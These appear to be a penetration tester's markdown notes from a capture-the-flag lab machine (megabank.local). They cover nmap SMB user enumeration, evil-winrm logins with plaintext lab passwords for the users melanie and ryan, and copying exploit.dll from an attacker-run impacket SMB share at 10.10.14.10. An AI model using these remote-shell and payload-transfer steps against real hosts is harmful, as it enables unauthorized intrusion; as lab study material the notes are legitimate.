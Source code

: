 # Initial start - nmap just finished - Needed to slow down because of blocked requests
## Starting all port nmap
### Windows 10 build 14393
### Domain: megabank.local 
 - nmap script to enumerate smb users on the box
	* --scirpt smb-enum-users.nse
	* list of users in file smb-users.txt 
	* Super awesome grep and cut techniques
	* `cat smb-enum-users.nmap | grep MEGABANK | cut -f 2 -d '\' | cut -f 1 -d ' '`

#### Refer to smb-enum.md for notes 

### Just be evil.. Looking into wireshark to understand how it is connectinig.
```
./evil-winrm.rb -i 10.10.10.169 -u melanie -p Welcome123!
```
- Looks like evil-winrm was able to get a ticket and use it to authenticate

####  Connecting over port 5985 - winrm over http

## ryan's password: Serv3r4Admin4cc123!
### Connect over evil winrm
- ./evil-winrm.rb -i 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!

### Transfering files via smb and impacket
- Turn on impacket smbserver.py
```smbserver.py exploit .```
	* where exploit is the name of the share and the '.' is the location of the directory that is being shared


- Need to use the net command
```
 net use \\10.10.14.10 
```
	* to select the running smb server
```
copy \\10.10.14.10\exploit\exploit.dll
```
	* to copy the file from the share to the current directory that I am in
